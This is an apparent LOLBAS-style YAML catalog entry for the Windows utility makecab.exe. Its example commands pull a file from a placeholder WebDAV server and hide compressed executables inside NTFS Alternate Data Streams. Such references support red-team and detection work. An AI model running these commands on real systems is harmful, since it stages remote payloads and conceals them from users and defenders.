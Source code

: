 ```yaml
---
Name: Makecab.exe
Description: Package, Add ADS, Download
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
    Description: Compresses the target file and stores it in the target file.
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
Full Path:
  - c:\windows\system32\makecab.exe
  - c:\windows\sysWOW64\makecab.exe
Code Sample: []
Detection: []
Resources:
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Notes: Thanks to Oddvar Moe - @oddvarmoe
---
```

